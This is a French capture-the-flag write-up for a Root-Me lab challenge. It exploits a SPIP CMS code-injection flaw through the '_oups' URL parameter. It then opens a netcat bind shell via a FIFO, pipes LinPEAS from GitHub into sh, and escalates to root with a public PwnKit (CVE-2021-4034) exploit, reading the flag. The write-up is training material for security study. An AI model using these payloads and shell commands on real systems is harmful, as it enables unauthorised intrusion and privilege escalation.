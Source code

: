 ```yaml
---
title: Réaliste - Breaking Root-Me like it’s 2020
meta_title: ""
description: Réaliste - Breaking Root-Me like it’s 2020
date: 2024-06-19T18:00:00Z
image: /images/rootme_logo.png
categories:
  - Rootme
  - Réaliste
  - Moyen
author: Demat
tags:
  - web-server
  - php
  - remote-code-execution
  - spip
  - cms
  - privilege-escalation
draft: false
isSecret: true
---
```


## Description

### Énoncé

**Lien du challenge : [Réaliste - Breaking Root-Me like it’s 2020](https://www.root-me.org/fr/Challenges/Realiste/Breaking-Root-Me-like-it-s-2020)**

> #### Revivre le frisson d’une RCE sur root-me.org
>
> Hello ! Je suis content que tu aies renouvelé ta cotisation annuelle de 15€ !
>
> Voici ton accès au backend de root-me.org, utilise le à bon escient ! ;)
>
> ```text {linenos=table}
> goodguy@contrib.fr:StronkP4ZZ:)
> ```
>
> Le flag se situe dans /flag.txt
>
> #### Ressources associées
>
> - [https://www.spip.net/](https://www.spip.net/)
> - [https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/](https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/)
>

### Contexte

Il s'agit d'une faille qui a été découverte sur le site web de Root-Me en 2020. C'est un challenge de type RCE (Remote Code Execution) sur un serveur web. Le but est de trouver une faille permettant d'exécuter du code arbitraire sur le serveur distant, afin de lire le contenu du fichier `/flag.txt`.

### Exploitation

#### Premiers pas

Pour commencer, on démarre le challenge sur la plateforme CTF All The Day. Pour ma part, il est hébergé sur le serveur `ctf06.root-me.org`.

En visitant `http://ctf06.root-me.org/`, on peut voir que le site web du challenge est un clone minimaliste de Root-Me, basé sur SPIP. Il s'agit d'un système de gestion de contenu (CMS) libre, écrit en PHP et distribué sous licence GPL, qui permet de créer et de gérer un site web dynamique.

Vu qu'un compte de contributeur est fourni, on peut se connecter à l'interface de publication du CMS avec le login `goodguy@contrib.fr` et le mot de passe `StronkP4ZZ:)`.

#### Exécution de code arbitraire : article de Laluka

Le second lien fourni dans l'énoncé pointe vers un article de blog qui explique comment l'auteur, Laluka, a réussi à exploiter plusieurs failles de sécurité sur le site web de Root-Me en 2020.
Il a trouvé de multiples vulnérabilités, mais celle qui nous intéresse est la RCE détaillée [vers la fin](https://thinkloveshare.com/hacking/rce_on_spip_and_root_me/#xss-on-oups) de l'article.

Il y donne un exemple de payload qui permet d'exécuter une commande sur le serveur, et d'en afficher le résultat dans la page. Adaptée à notre cas, l'URL est la suivante :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php echo fread(popen("id", "r"), 300);?>
```

*A priori*, rien de spécial. Cependant, si on inspecte le code source de la page, on peut voir que l'injection a fonctionné :
![RCE basique](/images/rootme2020/oups-injection.png)

C'est un bon début, mais ce n'est pas très pratique. On peut améliorer le payload pour afficher proprement le résultat de la commande directement sur la page, et augmenter la taille du buffer pour lire plus de 300 caractères :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("id", "r"), 1048576);?></pre><br style='
```

Le résultat est alors bien plus simple à lire :
![RCE plus jolie](/images/rootme2020/oups-injection-pretty.png)

Peut-on directement lire le contenu du fichier `/flag.txt` ? Regardons déjà les permissions du fichier :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("ls -lA /", "r"), 1048576);?></pre><br style='
```

```text {hl_lines=[7,17]}
total 1823824
lrwxrwxrwx   1 root root          7 Jul 31  2020 bin -> usr/bin
drwxr-xr-x   4 root root       4096 Jan  9  2021 boot
drwxr-xr-x   2 root root       4096 Jan  9  2021 cdrom
drwxr-xr-x  18 root root       3980 Jun 20 13:58 dev
drwxr-xr-x  96 root root       4096 Jan 25  2021 etc
-rwx------   1 root root         21 Jan 12  2021 flag.txt
drwxr-xr-x   3 root root       4096 Jan  9  2021 home
lrwxrwxrwx   1 root root          7 Jul 31  2020 lib -> usr/lib
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Jul 31  2020 libx32 -> usr/libx32
drwx------   2 root root      16384 Jan  9  2021 lost+found
drwxr-xr-x   2 root root       4096 Jul 31  2020 media
drwxr-xr-x   2 root root       4096 Jul 31  2020 mnt
drwxr-xr-x   3 root root       4096 Jan  9  2021 opt
-r--------   1 root root         33 Jun 20 13:59 passwd
dr-xr-xr-x 148 root root          0 Jun 20 13:58 proc
drwx------   5 root root       4096 Jan 12  2021 root
drwxr-xr-x  28 root root        840 Jun 20 14:03 run
lrwxrwxrwx   1 root root          8 Jul 31  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root       4096 Jan  9  2021 snap
drwxr-xr-x   2 root root       4096 Jul 31  2020 srv
-rw-------   1 root root 1867513856 Jan  9  2021 swap.img
dr-xr-xr-x  13 root root          0 Jun 20 13:58 sys
drwxrwxrwt   2 root root       4096 Jun 20 13:58 tmp
drwxr-xr-x  14 root root       4096 Jul 31  2020 usr
drwxr-xr-x  14 root root       4096 Jan  9  2021 var
```

Le fichier `/flag.txt` appartient à `root` et n'est accessible en lecture que pour son propriétaire. Il en va de même pour `/passwd`, nécessaire pour valider la box. Le seul moyen de lire ces fichiers est donc d'effectuer une élévation de privilèges.

#### Shell interactif

Essayons déjà d'obtenir un shell interactif pour nous faciliter la tâche. Pour cela, on va utiliser `nc` pour ouvrir un *bind shell* sur le port 31337, par le biais d'une FIFO (named pipe) :

```sh
nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'
```

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'", "r"), 1048576);?></pre><br style='
```

On peut maintenant se connecter au shell interactif avec [pwncat]({{< ref "/outils/pwncat-cs/" >}}) :
![Shell interactif avec pwncat](/images/rootme2020/pwncat-1.png)

#### Élévation de privilèges

Essayons de trouver une faille d'élévation de privilèges grâce à LinPEAS :

```sh
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
[...]
╔══════════╣ Executing Linux Exploit Suggester
[...]
[+] [CVE-2021-4034] PwnKit
[...]
```

Entre autres, LinPEAS mentionne la faille [CVE-2021-4034 *"PwnKit"*](https://cyberwatch.fr/cve/cve-2021-4034/), qui affecte Polkit et permet d'obtenir un shell root. Sur Ubuntu 20.04, elle affecte les versions de Polkit inférieures à la version `0.105-26ubuntu1.2`. Vérifions quelle version est installée sur la machine :

```sh
$ dpkg -s policykit-1 | fgrep 'Version'
Version: 0.105-26ubuntu1
```

Bingo ! La version de Polkit semble vulnérable. On peut donc essayer d'exploiter la faille pour obtenir un shell root. J'ai trouvé un exploit fonctionnel sur [GitHub](https://github.com/berdav/CVE-2021-4034) :

```text {hl_lines=["6-11"]}
$ cd /tmp
$ git clone https://github.com/berdav/CVE-2021-4034.git
$ cd CVE-2021-4034
$ make
$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /flag.txt
Can[...-censuré-...]
# cat /passwd
df811f94e1e3b4a06f2015a33ec47dc4
```

Et voià, il ne reste plus qu'à valider la box sur la plateforme CTF-ATD et à soumettre le flag !
